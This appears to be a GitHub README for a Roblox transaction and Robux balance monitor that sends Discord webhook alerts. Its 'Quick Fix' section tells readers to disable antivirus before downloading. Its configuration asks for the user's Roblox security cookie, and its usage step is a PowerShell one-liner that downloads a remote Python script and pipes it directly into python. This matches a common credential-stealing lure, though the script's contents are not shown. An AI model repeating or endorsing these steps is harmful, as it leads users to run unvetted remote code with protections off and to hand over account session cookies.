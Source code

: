 # Roblox Transaction Monitor
![image](https://github.com/user-attachments/assets/16669dc8-7a44-4c9d-8f60-48a9d46cdb08)

A GUI application to monitor Roblox transactions and Robux balance changes in real-time. Get Discord notifications when your Roblox economy data changes.

## Features

- [x] Real time monitoring of Roblox transactions
- [x] Robux balance tracking
- [x] Discord webhook integration for notifications
- [x] User friendly GUI interface
- [x] Customizable monitoring intervals
- [x] Detailed logging system

## Also just a Quick Fix

- [x] Turn Anti virus off
- [x] then download the app
- [x] after that turn the anti virus back on and you're done

## TODO

- [x] Automatic Updates
- [x] Dropdown menu like past day month year total

## Configuration

The application requires the following configuration:

1. Roblox Security Cookie
2. Discord Webhook URL
3. Discord Emoji ID for Robux display
4. Discord Emoji Name
5. Check Interval (update what ever time you want to set to)
6. Total Checks (Transaction/Balance) Like (Day Month Year)

## Usage

Run the application:

```powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/main.py').Content | python"
```

## License

This project is licensed under the MIT License - see the LICENSE file for details.
